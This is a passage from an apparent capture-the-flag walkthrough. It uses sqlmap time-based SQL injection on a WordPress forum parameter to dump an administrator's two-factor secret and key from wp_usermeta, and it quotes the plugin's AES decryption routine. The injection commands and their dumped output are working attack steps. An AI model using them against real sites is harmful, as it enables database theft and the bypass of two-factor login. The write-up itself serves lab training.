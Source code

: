 #### Read Secret / Key

[This](https://codex.wordpress.org/Database_Description#Table:_wp_usermeta)
describes the `wp_usermeta` table:

![image-20220216111212029](https://0xdfimages.gitlab.io/img/image-20220216111212029.png)

I’ll update my `sqlmap` to dump these for the phoenix user. For example, to
get the key, I’ll use `-T wp_usermeta -C meta_value --where "user_id=1 and
meta_key = 'mo2f_get_auth_rnd_string'"`:

    
    
    oxdf@hacky$ sqlmap --url "https://phoenix.htb/forum/?subscribe_topic=*" --dbms=mysql --technique=T --level 5 -D wordpress -T wp_usermeta -C meta_value --where "user_id=1 and meta_key = 'mo2f_get_auth_rnd_string'" --dump
    ...[snip]...
    Database: wordpress                                 
    Table: wp_usermeta                                  
    [1 entry]                                           
    +------------+                                      
    | meta_value |
    +------------+
    | kHHxxX3f   |
    +------------+
    ...[snip]...
    oxdf@hacky$ sqlmap --url "https://phoenix.htb/forum/?subscribe_topic=*" --dbms=mysql --technique=T --level 5 -D wordpress -T wp_usermeta -C meta_value --where "user_id=1 and meta_key = 'mo2f_gauth_key'" --dump 
    ...[snip]...
     Database: wordpress
    Table: wp_usermeta
    [1 entry]
    +--------------------------------------------------------------------------------------------------------------+
    | meta_value                                                                                                   |
    +--------------------------------------------------------------------------------------------------------------+
    | qGEPwI6RQBxF4aXM6PVuriofiwCH4mjc4ZjO3jWN5gDDX5MzLHTfDk3tRGK7vwkkTbAjoxNfqFeMjJZoSI5yPF25Hd5b8lSaF/Dpc6WMBTA= |
    +--------------------------------------------------------------------------------------------------------------+
    

#### Decrypt Secret

Back in the source for the plugin, the secret and the key were passed
to`decrypt_data`. It is a simple AES-128-CBC decryption:

    
    
    public static function decrypt_data($data, $key) {
        $c = base64_decode($data);
        $ivlen = openssl_cipher_iv_length($cipher="AES-128-CBC");
        $iv = substr($c, 0, $ivlen);
        $hmac = substr($c, $ivlen, $sha2len=32);
        $ciphertext_raw = substr($c, $ivlen+$sha2len);
        $original_plaintext = openssl_decrypt($ciphertext_raw, $cipher, $key, $options=OPENSSL_RAW_DATA, $iv);
        $calcmac = hash_hmac('sha256', $ciphertext_raw, $key, $as_binary=true);
    